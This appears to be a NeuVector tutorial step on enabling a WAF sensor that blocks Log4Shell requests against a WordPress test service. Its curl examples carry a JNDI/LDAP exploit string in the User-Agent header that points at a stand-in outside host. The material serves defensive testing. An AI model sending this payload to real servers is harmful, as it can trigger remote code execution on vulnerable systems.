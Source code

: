 # WAF - Log4shell

NeuVector's deep packet inspection also allow to scan and filter incoming and outgoing traffic with WAF (Web Application Firewall) and DLP (Data Loss Prevention) sensors.

Go to **Policy > WAF Sensors** to see the already pre-configured sensors. Here you can also activate your own. You can find more information at [DLP & WAF Sensors](https://open-docs.neuvector.com/policy/dlp).

In this step, we will test the `log4shell` sensor.

The following request contains a log4shell exploit:

```bash
curl -X POST -H "Content-Type: application/json" \
  -H "User-Agent: \${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" \
  -d 'foo=bar' \
  http://wordpress.domain
```

Without a configured WAF sensor, the request will work.

Next, create a WAF rule:

* Go to **Policy > Groups** and choose the `nv.wordpress.wordpress` group. 
* Go to the **WAF** tab
* Click on the edit button
* Choose the log4shell WAF sensor
* Click apply
* Set the WAF status toggle to **Enabled**

If you execute the same request now:

```bash
curl -X POST -H "Content-Type: application/json" \
  -H "User-Agent: \${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" \
  -d 'foo=bar' \
  http://wordpress.domain
```

the request will be blocked. NeuVector will also alert you at **Notifications > Security Events**.

